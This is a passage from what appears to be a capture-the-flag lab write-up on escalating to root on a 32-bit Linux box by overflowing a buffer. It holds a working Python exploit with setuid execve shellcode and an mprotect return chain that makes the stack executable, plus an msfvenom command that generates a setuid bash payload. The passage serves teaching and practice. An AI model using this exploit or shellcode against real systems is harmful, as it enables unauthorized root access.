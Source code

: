 The `addr` is the starting address we need to set to RWX. set RWX ends at `addr+len`, `prot` is the UNIX Permission.

Address must be in stack, which is `bfedf000`, the length should be `0xc0000000 - 0xbfedf000 = 0x121000`, the `prot` is `0x7`.

Get the function address of `mprotect`, 

> p mprotect

>>  $1 = {<text variable, no debug info>} 0xb7efcd50 <mprotect>

Let's grab a shellcode from [here](https://www.soldierx.com/bbs/201308/HOWTO-x86-setresuid-execve-shellcode-44-bytes)

So, the whole process of this is: glibc_mprotect->buffer_with_shellcode->mprotect_params.

```python
#!/usr/bin/env python3
import struct

scode = b"\x90\x31\xc0\xb0\x31\xcd\x80\x89\xc3\x89\xc1\x89\xc2\x31\xc0\xb0\xa4\xcd\x80\x31\xc0\x50\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80"

ret_address = 0xbffff5b0 # Replace vulnaddr here

mprotect = struct.pack("<L", 0xb7efcd50) # Replace with mprotect addr
stackadd = struct.pack("<L", 0xbfedf000) # Replace with stack addr in the mapping
stacksize = struct.pack("<L", 0x121000) 
setread = b'\x07\x00\x00\x00'


buf = b""
buf += scode.ljust(76, b"\x90") # ljust sets a fixed length buffer, regardless of payload length and writes our rop chain, the padding is \x90=nop
buf += mprotect
buf += struct.pack("<L", ret_address)
buf += stackadd
buf += stacksize
buf += setread

with open('tmpbuf','wb') as buffef:
	buffef.write(buf)
```

![rooted](https://alicdn.kmahyyg.xyz/asset_files/htb7/calamity-11.webp)

## Ret2libc

(1) libc_execl->libc_exit->pointer_path_to_bin->NULL->NULL

Generate shellcode:

> msfvenom -p linux/x86/exec CMD=/bin/bash LHOST=10.10.15.174 LPORT=443 PrependSetuid=true -f elf -o booj.elf
